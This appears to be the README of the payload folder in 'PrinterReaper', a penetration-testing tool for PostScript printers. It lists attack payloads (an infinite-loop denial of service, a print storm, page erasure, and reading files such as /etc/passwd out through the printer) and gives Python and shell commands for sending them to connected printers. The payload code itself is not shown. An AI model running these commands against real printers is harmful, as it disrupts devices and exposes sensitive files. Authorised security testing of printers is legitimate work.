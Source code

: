 # PrinterReaper Payloads

Pre-built attack payloads for PostScript-enabled printers.

---

## 📋 Available Payloads

### banner.ps
**Purpose**: Print custom banner message  
**Variables**: `{{msg}}` - Message to display  
**Risk**: 🟢 Low  
**Usage**:
```python
from payloads import load_payload
payload = load_payload('banner.ps', {'msg': 'SYSTEM COMPROMISED'})
```

### loop.ps
**Purpose**: Infinite loop DoS attack  
**Variables**: None  
**Risk**: 🔴 High (requires power cycle)  
**Usage**:
```python
payload = load_payload('loop.ps')
# WARNING: Printer will hang!
```

### erase.ps
**Purpose**: Erase current page  
**Variables**: None  
**Risk**: 🟡 Medium  
**Usage**:
```python
payload = load_payload('erase.ps')
```

### storm.ps
**Purpose**: Print storm (resource exhaustion)  
**Variables**: `{{count}}` - Number of pages (default: 100)  
**Risk**: 🔴 High (wastes resources)  
**Usage**:
```python
payload = load_payload('storm.ps', {'count': '500'})
```

### exfil.ps
**Purpose**: Data exfiltration via printing  
**Variables**: `{{file}}` - File to read (e.g., /etc/passwd)  
**Risk**: 🔴 High (information disclosure)  
**Usage**:
```python
payload = load_payload('exfil.ps', {'file': '/etc/passwd'})
```

---

## 🎯 Usage in PrinterReaper

### Method 1: Via Shell

```bash
# In PostScript shell
> payload banner HACKED!
> payload loop
> payload storm 100
```

### Method 2: Programmatic

```python
from payloads import load_payload, execute_payload

# Load and customize
payload = load_payload('banner.ps', {'msg': 'Custom Message'})

# Execute on connected printer
execute_payload(printer.conn, 'banner.ps', {'msg': 'PWNED'})
```

### Method 3: Direct File

```bash
# Upload and execute
> put banner.ps
> execute @PJL ENTER LANGUAGE=POSTSCRIPT
> execute (banner.ps) run
```

---

## ⚠️ Security Warnings

**Destructive Payloads:**
- `loop.ps` - Requires power cycle
- `storm.ps` - Wastes paper and toner
- `exfil.ps` - May expose sensitive data

**Use only with authorization!**

---

## 🔧 Creating Custom Payloads

Template:
```postscript
%!PS
% Custom Payload Description
% Variables: {{var1}}, {{var2}}

% Your PostScript code here
/Helvetica findfont 12 scalefont setfont
100 700 moveto
({{var1}}) show
showpage
```

Save as `custom.ps` in `src/payloads/` directory.

---

## 📚 References

- [PostScript Language Reference](https://www.adobe.com/products/postscript/pdfs/PLRM.pdf)
- [Hacking Printers Wiki](http://hacking-printers.net)
- PrinterReaper Wiki

---

**Last Updated**: October 4, 2025  
**Version**: 2.4.0

